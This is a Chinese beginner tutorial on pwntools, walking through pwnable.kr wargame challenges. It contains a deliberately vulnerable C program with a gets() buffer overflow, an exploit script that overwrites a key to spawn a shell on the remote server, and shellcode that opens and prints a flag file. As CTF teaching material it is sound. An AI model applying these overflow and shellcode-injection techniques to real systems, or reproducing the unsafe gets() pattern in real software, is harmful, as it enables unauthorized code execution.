 # 新手教程

> 学习网址：
>
> * [https://bbs.pediy.com/thread-247217.htm](https://bbs.pediy.com/thread-247217.htm)

## `pwntools` 新手教程

### `Hello World`

C 程序源代码（`./1.c`）：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

`exp` 脚本（`./1.py`）：

```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline("AAAA" * 13 + p32(0xcafebabe))
c.interactive()
```

### `ShellCode`

获取源码和可执行文件的方式，需要先通过 `ssh` 连接的目标主机：

```bash
ssh -p2222 asm@pwnable.kr
# 输入密码 guest
```

或者直接通过 `scp` 下载文件：

```bash
scp -P 2222 asm@pwnable.kr:~/asm ./
# 输入密码 guest

scp -P 2222 asm@pwnable.kr:~/asm.c ./
# 输入密码 guest
```

`exp.py` 的内容：

```python
from pwn import *

p = process("./asm")
context.log_level = 'DEBUG'
gdb.attach(p)

context(arch='amd64', os='linux')

shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax','rsp',0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)

p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

除了 I/O, `process` 返回的对象可以通过 `gdb.attach(p)` 将进程 attach 到 gdb 上。Attach 之后，gdb 便可以调试该程序来（设置 breakpoints，查看 stack，以及简单的反汇编）。
